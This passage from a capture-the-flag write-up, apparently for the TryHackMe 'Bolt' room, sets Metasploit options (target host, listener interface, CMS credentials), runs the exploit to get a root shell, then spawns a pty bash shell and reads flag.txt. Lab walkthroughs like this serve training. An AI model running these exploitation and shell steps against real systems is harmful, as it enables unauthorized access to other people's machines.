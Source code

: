 <pre class="language-bash"><code class="lang-bash"><strong>set RHOST bolt.thm
</strong><strong>set LHOST tun0
</strong>set USERNAME bolt
set PASSWORD boltadmin123
exploit
</code></pre>

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 11-20-50 (1).png" alt=""><figcaption><p>root shell</p></figcaption></figure>

#### 3.9 - Look for flag.txt inside the machine.

flag is usually in the path: /home

```bash
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
```

or we can spawn a bash shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
```

<details><summary>🚩 Flag 1 (flag.txt)</summary></details>
